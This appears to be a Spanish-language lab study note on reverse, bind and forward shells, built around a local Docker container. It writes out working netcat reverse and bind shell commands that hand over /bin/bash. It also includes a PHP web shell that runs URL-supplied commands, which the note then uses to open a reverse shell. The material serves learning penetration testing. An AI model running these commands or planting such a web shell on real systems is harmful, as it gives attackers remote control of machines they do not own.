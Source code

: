 
---------
- Tags: #ReverseShells #BindShells #ForwardShells
---------------
> **Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

- Creamos un archivo
```bash
nvim dockerfile
```
- Desplegamos la maquina
```bash
docker build -t webserver .
```
- En segundo plano con una consola virtual y de manera interactiva
```bash
docker run -dit -p 80:80 --name myContainer my_image
```
- Conseguir una consola interactiva e instalamos ncat
```bash
docker exec -it myContainer bash
apt install ncat
```
- Con la herramienta netcat ponernos en escucha
```bash
nc -nlvp 443
```
- Desde la maquina interactiva en bash ponemos para recibir conexión
```bash
ncat -e /bin/bash 172.17.0.1 443
```
- Para ver mejor el diseño en pantalla
```bin/bash
script /dev/null -c bash
```

![[Ejemplo de Reverse Shells.png]]


>**Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

- Con ncat iniciado la maquina interactica con:
```bash
docker exec -it myContainer bash
apt install ncat
```
- Escuchar por el puerto 443 ofreciendo una bash
```bin/bash
ncat -nlvp 443 -e /bin/bash
```


![[Ejemplo de BindShells.png]]

>**Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

- Escuchar por el puerto 443 ofreciendo una bash
```bin/bash
ncat -nlvp 443 -e /bin/bash
```
- En otra terminal ingresamos el comando
```bin/bash
nc 172.17.0.2 443
```
- También podemos realizar los siguientes pasos 
```bin/bash
docker rm $(docker ps -a -q) --force
```
- Este comando nos permite instalar iptables en la consola interactiva
```bin/bash
docker run -dit -p 80:80 --cap-add=NET_ADMIN --name myContainer webserver
```
- Corremos el contenedor
```
docker exec -it myContainer bash
```
- En el bash instalamos iptables
```
install iptables
iptables --flush
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 0:65535 -m conntrack --ctstate NEW -j DROP
```
- Nos dirigimos al archivo 
```
/var/www/html/
```
- Instalamos nano
```bin/bash
apt install nano
```
- Creamos un archivo en la interfaz dinamica
```
nano cmd.php
```
```php
<?
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```
- Abrimos este archivo para reparar el problema php en la pagina
```
nano /etc/php/8.1/apache2/php.ini
```
-----

(Ctrl+w) = nos permite filtrar la linea `short_open_tag`
Cambiar el Off por el On
Cerramos y actualizamos la pagina web localhosts
Y listo tenemos ejecución por consola a través de `localhost/cmd.php?cmd=whoami` a través de la URL

-------
- Instalamos ncat
```
apt install ncat
```
- Nos ponemos en escucha en el puerto 443
```
nc -nlvp 443
```
- Nos conectamos desde la **URL**
```
localhost/cmd.php?cmd=ncat -e /bin/bash 172.17.0.1 443
```
- Si no funciona podemos intentar trabajar con la libreria `ttyoverhttp.py` copiando el raw 
```
wget https://github.com/s4vitar/ttyoverhttp/blob/master/tty_over_http.py
```
Modificamos todos los index.php a cmd.php
- Actualizamos el archivo cmd.php 
```php
<?php
	echo shell_exec($_GET['cmd']);
?>
```
- Nos conectamos a la escucha de nuevo por 
```
nc -nlvp 443
```
- O tambien nos podemos conectar por 
```python
python tty_over_http.py
```
- Para conseguir una consola interactiva
```
script /dev/null -c bash
```

![[Ejemplo de ForwardShells.png]]